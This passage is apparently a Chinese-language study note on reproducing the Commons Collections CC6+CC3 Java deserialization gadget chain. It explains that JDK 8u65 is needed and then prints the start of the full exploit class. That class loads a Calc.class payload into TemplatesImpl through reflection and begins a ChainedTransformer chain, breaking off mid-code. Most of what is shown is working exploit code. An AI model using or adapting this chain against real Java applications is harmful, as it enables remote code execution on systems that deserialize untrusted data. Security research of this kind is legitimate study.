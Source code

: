 # CC6+CC3

前面文章复现CC6链时用的是`jdk-8u71`，用这个jdk复现CC6+CC3时会各种报错，CC6链不受JDK版本限制，所以将JDK版本降到`jdk-8u65`就可以完美复现

## 调用链

![image-20250927204841244](./Commons-Collections%E7%AF%8704-CC3%E9%93%BE/image-20250927204841244.png)

## 完整代码

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

public class CC6_CC3 {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\迅雷下载\\org\\example\\Calc.class"));
         TemplatesImpl templates = new TemplatesImpl();
         setFieldValue(templates, "_name", "Calc");
         setFieldValue(templates, "_bytecodes", new byte[][] {code});
         setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());
        Transformer[] transformers = new Transformer[]{
```